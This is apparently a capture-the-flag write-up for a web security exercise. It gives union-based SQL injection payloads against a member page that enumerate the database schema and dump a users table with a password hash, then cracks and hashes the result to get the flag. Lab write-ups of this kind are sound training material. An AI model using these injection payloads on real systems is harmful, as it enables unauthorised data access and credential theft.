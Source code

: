 /index.php?page=member

1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
5 union all select table_name,column_name from information_schema.columns

table_schema: Member_Sql_Injection
table_name: users
columns: user_id, first_name, last_name, town, country, planet, Commentaire, countersign
5 union all select 1,concat(user_id,0x3a,last_name,0x3a,first_name,0x3a,town,0x3a,country,0x3a,planet,0x3a,Commentaire,0x3a,countersign) from users
On trouve :
5:GetThe:Flag:42:42:42:Decrypt this password -> then lower all the char. Sh256 on it and it's good !:5ff9d0165b4f92b14994e5c685cdce28
Unhash 5ff9d0165b4f92b14994e5c685cdce28 to get "FortyTwo", and Sh256 "fortytwo" gives the flag:
	10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

